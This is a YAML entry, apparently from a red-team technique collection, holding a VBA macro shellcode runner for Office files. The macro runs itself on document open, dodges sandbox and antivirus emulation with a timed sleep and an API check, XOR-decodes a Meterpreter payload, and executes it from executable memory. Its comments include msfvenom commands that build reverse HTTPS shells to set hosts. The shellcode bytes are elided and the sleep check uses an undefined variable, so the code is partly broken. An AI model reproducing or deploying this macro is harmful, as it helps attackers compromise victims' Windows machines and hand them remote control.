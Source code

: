 ```yaml
---
description: |
  Shellrunner in a VBA macro can be used inside a Office product. This code make use of encrypted shellcode with XOR and has a Sleep function which ensures that it is not tested against an AV emulator.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a


command: |
    Shellcode for VBA in Office products

code: |
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
    Private Declare PtrSafe Function Sleep Lib "kernel32" (ByVal mili As Long) As Long
    Private Declare PtrSafe Function FlsAlloc Lib "kernel32" (ByVal lpCallback As LongPtr) As Long

    Sub Document_Open()
      ShellcodeRunner
    End Sub

    Sub AutoOpen()
      ShellcodeRunner
    End Sub

    Function ShellcodeRunner()
      Dim buf As Variant
      Dim tmp As LongPtr
      Dim addr As LongPtr
      Dim counter As Long
      Dim data As Long
      Dim res As Long
      Dim dream As Integer
      Dim before As Date
  
      ' Check if we're in a sandbox by calling a rare-emulated API
      If IsNull(FlsAlloc(tmp)) Then
        Exit Function
      End If

      ' Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
      dream = Int((1500 * Rnd) + 2000)
      before = Now()
      Sleep (dream)
      If DateDiff("s", t, Now()) < dream Then
        Exit Function
      End If

      ' msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.240.178 LPORT=443 EXITFUNC=thread -f vbapplication --encrypt xor --encrypt-key a
      buf = Array(31, 33, ..., 33, 37)

      ' XOR-decrypt the shellcode
      For i = 0 To UBound(buf)
        buf(i) = buf(i) Xor Asc("a")
      Next i

      ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
      ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
      addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

      For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
      Next counter

      res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function


items:
    - Shell
services:
    - 
OS:
    - Windows
attack_types:
    - Persistence
    - Injection
references:
    - https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-with-powershell-cradle-in-memory
--- 
```



